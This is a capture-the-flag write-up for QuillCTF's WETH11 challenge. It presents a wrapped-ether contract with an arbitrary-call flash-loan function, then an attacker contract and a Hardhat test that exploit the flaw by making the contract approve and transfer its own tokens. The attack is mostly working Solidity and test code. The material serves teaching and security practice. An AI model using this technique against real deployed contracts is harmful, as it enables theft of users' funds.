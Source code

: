 # QuillCTF: 11. WETH11

> We have fixed WETH10 and now have introduced its new version WETH11.
> But along the way, bob made a mistake and transferred its tokens to the wrong address.
> Can you help bob recover his 10 ether?

**Objective of CTF:**

- Contract should have 0 balance, both in ETH and WETH.
- Bob should have 10 ETH.

**Target contract:**

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Angel Di Maria Wrapped Ether
contract WETH11 is ERC20("Angel Di Maria Wrapped Ether", "WETH11"), ReentrancyGuard {
  receive() external payable {
    deposit();
  }

  function _burnAll() internal {
    _burn(msg.sender, balanceOf(msg.sender));
  }

  function deposit() public payable nonReentrant {
    _mint(msg.sender, msg.value);
  }

  function withdraw(uint256 wad) external nonReentrant {
    _burn(msg.sender, wad);
    Address.sendValue(payable(msg.sender), wad);
  }

  function withdrawAll() external nonReentrant {
    uint256 balance = balanceOf(msg.sender);
    _burnAll();
    Address.sendValue(payable(msg.sender), balance);
  }

  /// @notice Request a flash loan in ETH
  function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
    uint256 prevBalance = address(this).balance;
    Address.functionCallWithValue(receiver, data, amount);

    require(address(this).balance >= prevBalance, "flash loan not returned");
  }
}
```

## The Attack

The main exploit here is the arbitrary function-execution bug, present in the `execute` function that provides flash loan. Independent of the amount of flash loan, we can execute anything we would like from the persepctive of the WETH contract thanks to `functionCallWithValue` that is being done inside it.

With that said, our attack is to simply transfer ourselves us all the tokens the contract has. We will send the following calldata to the `execute` function:

```ts
abi.encodeWithSignature("transfer(address,uint256)", [uint256(uint160(bob)), weth11.balanceOf(target)]
```

This will cause the contract to transfer everything it has to Bob. Note that a cooler attack would be to approve a huge number of tokens to Bob, and then use `transferFrom` to get the tokens. This way, Bob can get tokens transferred to WETH at a later time too.

Afterwards, Bob will call `withdrawAll` to convert his WETH to ETH.

## Proof of Concept

Our attacker contract, acting as Bob here, is written as follows:

```solidity
contract WETH11Attacker {
  WETH11 private weth11;
  address immutable target;
  address immutable bob;

  constructor(address targetAddress) payable {
    weth11 = WETH11(payable(targetAddress));
    bob = address(this);
    target = targetAddress;

    // deposit 10 ETH
    weth11.deposit{value: 10 ether}();

    // mistakenly, send the 10 WETH you've just gained
    weth11.transfer(targetAddress, 10 ether);
  }

  function pwn() external {
    // take 0-amount flash loan, approving the entire balance of WETH to Bob
    uint256 balance = weth11.balanceOf(target);
    weth11.execute(target, 0, abi.encodeWithSignature("approve(address,uint256)", [uint256(uint160(bob)), balance]));

    // transfer tokens
    weth11.transferFrom(target, bob, balance);

    // withdraw
    weth11.withdrawAll();
  }

  receive() external payable {}
}
```

A Hardhat proof-of-concept test is written as follows (in compliance with the setup described in Foundry):

```ts
describe('QuillCTF: 11. WETH11', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let contract: WETH11;
  let bob: WETH11Attacker;

  const BOB_INITIAL_BALANCE = ethers.utils.parseEther('10');

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('WETH11', owner).then(f => f.deploy());
    await contract.deployed();

    // bob is deployed with 10 ether, deposits it to WETH and transfer the WETH mistakenly
    bob = await ethers
      .getContractFactory('WETH11Attacker', owner)
      .then(f => f.deploy(contract.address, {value: BOB_INITIAL_BALANCE}));

    // as a result, contract has 10 ETH and 10 WETH
    expect(await ethers.provider.getBalance(contract.address)).to.eq(BOB_INITIAL_BALANCE);
    expect(await contract.balanceOf(contract.address)).to.eq(BOB_INITIAL_BALANCE);
  });

  it('should rescue funds', async () => {
    await bob.connect(attacker).pwn();
  });

  after(async () => {
    // empty weth contract
    expect(await ethers.provider.getBalance(contract.address)).to.eq(0);
    expect(await contract.balanceOf(contract.address)).to.eq(0);

    // bob balance should be 10 ETH
    expect(await ethers.provider.getBalance(bob.address)).to.eq(BOB_INITIAL_BALANCE);
  });
});
```

